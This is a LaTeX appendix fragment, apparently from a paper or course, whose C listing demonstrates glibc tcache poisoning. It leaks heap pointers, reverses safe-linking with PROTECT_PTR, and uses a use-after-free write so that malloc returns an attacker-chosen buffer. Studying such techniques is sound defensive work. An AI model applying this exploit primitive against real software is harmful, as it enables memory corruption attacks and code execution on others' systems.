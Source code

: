 \documentclass{article}
\begin{document}
\begin{appendices}
\begin{lstlisting}[language={C},label={lst:tcache_poison}]
int main() {
  for (int i = 0; i < 3; i++) {
    allocations[i] = malloc(0x20);
    printf("addr of alloc[%d]: %p\n", i, allocations[i]);
  }

  printf("\n");


  free(allocations[2]);
  free(allocations[0]);
  free(allocations[1]);

  
  printf("fd  of alloc[0]: %p\n", ((tcache_entry *)allocations[0])->next);
  printf("key of alloc[0]: 0x%lx\n", ((tcache_entry *)allocations[0])->key);

  printf("fd  of alloc[0]: %p\n", ((tcache_entry *)allocations[1])->next);
  printf("key of alloc[0]: 0x%lx\n", ((tcache_entry *)allocations[1])->key);

  void* fd_alloc1 = PROTECT_PTR(allocations[1], ((tcache_entry*)allocations[1])->next);
  printf("revealed fd of alloc [1]: %p\n", fd_alloc1);

  assert(fd_alloc1 == allocations[0]);
  /* Only works sometimes due to ASLR
   * Demangle requires the two consecutive chunks to be in the same page
   * assert(demangle((size_t)((tcache_entry*)allocations[1])->next) ==
   * (size_t)allocations[0]);
   */

  /* Use after free */
  ((tcache_entry *)allocations[1])->next = PROTECT_PTR(&((tcache_entry *)allocations[1])->next, (tcache_entry *)bad_buffer);

  assert(malloc(0x20) == allocations[1]);
  assert(malloc(0x20) == bad_buffer);
}
\end{lstlisting}

\end{appendices}
\end{document}
